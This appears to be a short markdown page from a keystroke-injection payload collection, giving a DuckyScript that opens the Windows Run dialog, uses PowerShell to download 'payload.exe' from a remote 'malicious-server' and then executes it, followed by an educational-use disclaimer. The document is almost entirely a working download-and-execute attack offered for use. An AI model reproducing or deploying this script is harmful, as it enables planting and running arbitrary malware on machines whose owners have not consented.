 # Download and Execute a Payload

This script downloads and executes a payload from a remote server.

```
DELAY 500
GUI r
DELAY 500
STRING powershell -Command "Invoke-WebRequest 'http://malicious-server/payload.exe' -OutFile 'C:\payload.exe'"
ENTER
DELAY 500
STRING C:\payload.exe
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.